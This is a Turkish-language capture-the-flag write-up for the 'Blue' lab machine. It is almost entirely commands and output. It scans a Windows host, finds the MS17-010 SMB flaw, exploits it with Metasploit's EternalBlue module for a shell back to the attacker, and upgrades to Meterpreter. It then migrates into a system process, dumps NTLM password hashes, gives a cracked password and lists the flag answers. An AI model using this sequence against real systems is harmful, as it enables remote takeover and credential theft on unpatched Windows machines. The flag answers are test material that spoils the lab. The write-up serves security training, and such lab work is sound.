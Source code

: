 # Blue CTF Solution

## 1.Adım Ping Taraması
```bash
ping Machine_IP
```
## 2.Adım Nmap Tarama
```bash
nmap --top-ports 100 -sV Machine_IP
```
Nmap Tarama Sonuçları:
```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-25 15:02 EDT
Nmap scan report for Machine_IP
Host is up (0.067s latency).
Not shown: 93 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```
## 3.Adım SMB Güvenlik Açığı Tarama
```bash
nmap --script="smb-vuln-*" Machine_IP
```
SMB Güvenlik Açığı Sonuçları
```bash
Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
```
## 4.Adım Metasploit'te Açığın Aranması
```bash
msfconsole
msf6> search ms17 010
```
Eşleşen Moduller: 
```bash
   #   Adı                                          Açıklama Tarihi  Sıralama   Kontrol  Açıklama
   -   ----                                         ---------------  --------  -------  -----------
   0   exploit/windows/smb/ms17_010_eternalblue     2017-03-14       ortalama  Evet    MS17-010 EternalBlue SMB Uzak Windows Kernel Havuzu Bozulması
   1     \_ hedef: Windows Server 2012              .                .        .      .
   2     \_ hedef: Windows 10 Pro                   .                .        .      .
   3     \_ hedef: Windows 10 Enterprise Evaluation .                .        .      .
   4  exploit/windows/smb/ms17_010_psexec          2017-03-14       normal   Evet    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Uzak Windows Kod Çalıştırma
```
## 5.Adım Exploiti Kullanma ve Ayarlarının Yapılması
```bash
msf6> use 0
msf6 exploit(windows/smb/ms17_010_eternalblue) > options
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost tun0
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhost machine_ip
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
```
## 6.Adım Shell to Meterpreter
```bash
msf6> search shell_to_meterpreter
msf6> use 0
msf6> set sessions Session_id (session idyi ogrenmek icin oncesinde msf6> sessions -l)
msf6> run
```
Yeni Oturumla Etkileşim
```bash
msf6> sessions -l
msf6> sessions -i New_Session_ID
```
## 7.Adım Meterpreter Komutları
İşlemleri Görüntüleme
```bash
ps  #Root yetkisiyle çalışcan processleri inceliyoruz.
```
Root Sürecine Geçiş 
```bash
migrate 828  # (svchost.exe'nin PID'si)
```
Hashleri Dökme
```bash
hashdump
```
Hash Döküm Sonuçları
```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```
## 8.Adım Joh'un Şifresinin Çözülmesi
```bash
ffb43f0de35be4d9917ac0cc8ad57f8d --> alqfna22
```
## 9.Adım Flagleri Bulma
Flag 1
```bash
C:\>dir
C:\>type flag1.txt
flag{access_the_machine}
```
Flag 2
```bash
C:\Users\Jon\Contacts>dir /s /p C:\flag2.txt
C:\Users\Jon\Contacts>type C:\Windows\System32\config\flag2.txt
flag{sam_database_elevated_access}
```
Flag 3
```bash
C:\Users\Jon\Documents>dir
C:\Users\Jon\Documents>type flag3.txt
flag{admin_documents_can_be_valuable}
```

